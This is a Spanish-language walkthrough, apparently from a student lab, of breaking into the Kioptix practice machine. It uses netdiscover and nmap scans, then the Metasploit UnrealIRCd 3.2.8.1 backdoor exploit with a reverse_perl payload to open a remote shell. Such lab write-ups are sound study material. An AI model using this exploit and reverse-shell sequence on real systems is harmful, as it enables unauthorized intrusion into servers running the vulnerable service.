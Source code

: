 # Cómo he vulnerando la máquina Kioptix 

### Primero hice un reconicimiento de la red en busca de la IP de la máquina virtual (siendo que únicamente conozco la MAC y la red padre):

sudo netdiscover

nmap -sn 10.0.0.0/19

### Obtengo la IP de la máquina a atacar:

10.0.8.37

### Seguidamente hice un nmap -sV en busqueda de puertos abiertos junto al servicio que usa y su versión:
```
ismael@ismael-VirtualBox:~/Escritorio$ nmap -sV 10.0.8.37
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-18 16:13 CET
Nmap scan report for 10.0.8.37
Host is up (0.00040s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.44 seconds
```
### Analizo con metasploit el servicio de la máquina atacada
```
msfconsole

search UnrealIRC

0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

### Ya que la versión de IRC que se está usando "UnrealIRCd" solo tiene una vulnerabilidad conocida, la probaré directamente (exploit/unix/irc/unreal_ircd_3281_backdoor) junto a la payload (payload/cmd/unix/reverse_perl)
#### NOTA: probé también las payloads "reverse" y "reverse_bash_telnet_ssl" pero no funcionarion

```
use 0
show options
set RHOSTS 10.0.8.37
show payloads
set PAYLOAD cmd/unix/reverse_perl
set LHOST 10.0.2.15
show options
run
```
### (La demonstración de que realmente obtuve acceso a la máquina está junto a este fichero)
